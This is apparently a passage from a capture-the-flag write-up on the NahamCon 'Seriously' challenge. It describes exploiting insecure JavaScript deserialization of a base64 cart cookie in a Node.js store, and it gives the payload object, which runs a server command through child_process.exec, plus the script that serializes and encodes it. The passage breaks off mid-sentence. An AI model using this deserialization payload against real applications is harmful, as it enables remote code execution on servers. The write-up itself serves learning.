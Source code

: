 # NahamCon CTF - Seriously

So we have five "plant stores" and we need to hack it to get the flag.
At first I thought the challenge was somehow related to escalate privileges among them.

There are two hints here:
* The message on the checkout option, saying it was prohibited due to security issues.
* The name of the game itself ("seriously"), as I found later.

I tried all the stores to see if the checkout was open on any of them, but they were not (and stores 3 and 4 were down).

The **/cart** URL used a cookie called also **cart**, to store the items, encoded in base64:
**Base64:**
```
eyJpdGVtcyI6eyIwIjp7Im5hbWUiOiJIYXdvcnRoaW9wc2lzIGF0dGVudWF0YSIsInByaWNlIjoxOS45OSwiY291bnQiOjF9LCIyIjp7Im5hbWUiOiJEcmFjYWVuYSB0cmlmYXNjaWF0YSIsInByaWNlIjoxNC45OSwiY291bnQiOjF9fX0K`
```
**Decoded:** 
```
{"items":{"0":{"name":"Haworthiopsis attenuata","price":19.99,"count":1},"2":{"name":"Dracaena trifasciata","price":14.99,"count":1}}}
````

OK, using a 404 error, we see it's a node application, so I found a Javascript deserialization vulnerability.

### First Try: Shell

Using a sample payload online, I tried to call OS commands.
The snippet bellow is the same structure of the cart, but I changed the name to an evil function.

```
evil = {
  items: {
    '0': { name: 'Haworthiopsis attenuata', price: 19.99, count: 1 },
    '2': { name: 'Dracaena trifasciata', price: 14.99, count: 1 },
    '3': { name: function(){
			require('child_process').exec('ls / >> nep10.txt', function(error, stdout, stderr) { return 'Neptunian'; });
		}, 
    	price: 14.99, count: 1,  },
  }
}**()**
```

And the plan is to serialize the evil object to send to the server.

Something about the **()** above: if you put the parentheses in this constructor, it will run the function, and the serialized version will get only the result.
I had to put the **()** it after serializing for it to run only after deserialization.

And testing:
```
let buff = new Buffer.from(serialize.serialize(evil2));

console.log('Evil Serialized:');
// buff2 = buff.toString('ascii');

// Had to replace here to be automatic.
// If I put the "()" and the end of the function, it will run and serialize the result!!
// But if I put only in the serialized version, it will run only in the server, just after deserializing!
// This way, I can work with a complete code, test the payload locally (below) and send it ready to the server.
buff2 = buff.toString('ascii').replace('}","price', '}()","price');
console.log(buff2 + '\n\n');

console.log('Evil Base64');
let base64data = Buffer.from(buff2).toString('base64');
console.log(base64data + '\n\n');

console.log('Evil URL Encoded:');
let payload = urlencode(base64data);
console.log(payload + '\n\n');
```

Now I had a payload.
It worked locally, but I couldnt make the exec command work (tried with curl).

### The Real Deal: Owning with Javascript

I dont really need a shell when I can run 